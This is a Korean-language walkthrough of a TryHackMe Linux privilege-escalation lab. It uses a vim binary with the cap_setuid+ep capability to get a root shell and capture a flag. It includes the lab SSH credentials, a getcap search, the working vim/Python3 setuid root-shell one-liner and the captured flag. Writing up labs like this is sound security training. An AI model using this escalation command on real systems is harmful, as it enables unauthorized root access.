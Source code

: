 ## Privilege Escalation: Capabilities
> TryHackMe의 "Linux Privilege Escalation: Capabilities" 실습을 기반으로, `vim` 바이너리에 Capabilities가 부여되어 있는 점을 악용하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.175.127
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: Capabilities가 설정된 `vim`을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.175.127
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 Capabilities 권한이 설정된 바이너리 검색


```bash
getcap -r / 2>/dev/null
```
- 시스템 전반에서 Capabilities가 부여된 파일을 검색한 결과 `/home/karen/vim` 바이너리에 `cap_setuid+ep` 권한이 부여되어 있음을 확인하였다.

![Capabilities 검색](./screenshots/cap_setuid+ep.png)

---

#### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 `vim` 명령어에 `cap_setuid+ep` Capabilities가 부여되어 있을 경우 Python을 통해 루트 권한으로 쉘을 실행할 수 있다는 점을 확인하였다.

---

#### 2.4 루트 쉘 실행

- 우선 `/home/karen/vim` 바이너리를 vi 편집기로 열어 `:version` 명령어를 실행하여 `+python3` 기능이 포함되어 있음을 확인하였다. 이는 GTFOBins의 루트 쉘 실행 코드가 정상 동작할 수 있는 환경임을 의미한다.

![vi으로 버전 확인](./screenshots/vim_version.png)

```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
- Capabilities 권한을 가진 vim을 통해 Python3 모듈로 UID를 0으로 설정하고 쉘을 실행함으로써 루트 권한을 획득하였다.

![루트 쉘 실행](./screenshots/shell_start.png)

---

#### 2.5 플래그 파일 찾기 및 획득
```bash
find / -name flag4.txt
cat /home/ubuntu/flag4.txt
```
- 루트 권한으로 시스템 전체를 검색하여 `/home/ubuntu/flag4.txt` 플래그 파일을 찾고, 내용을 확인하였다.

![플래그 획득](./screenshots/root_flag.png)

---

### 3. 최종 결과
- Capabilities를 악용한 루트 쉘 획득에 성공하였다.
- 루트 권한 획득 성공 (`uid=0(root)`)
- flag4.txt 파일에서 플래그 확보: `THM-9349843`

---

### 4. 배운 점

> ✅ 실습을 통해 Capabilities가 부여된 명령어 또한 루트 권한 상승에 직접적으로 사용될 수 있는 보안 위협이 될 수 있다는 점을 확인하였다. 특히 텍스트 편집기인 `vim`과 같이 평범해 보이는 프로그램이라도 `cap_setuid+ep` 권한이 존재할 경우 Python 모듈을 통해 손쉽게 루트 쉘 획득이 가능한 매우 치명적인 취약점으로 이어질 수 있었다.

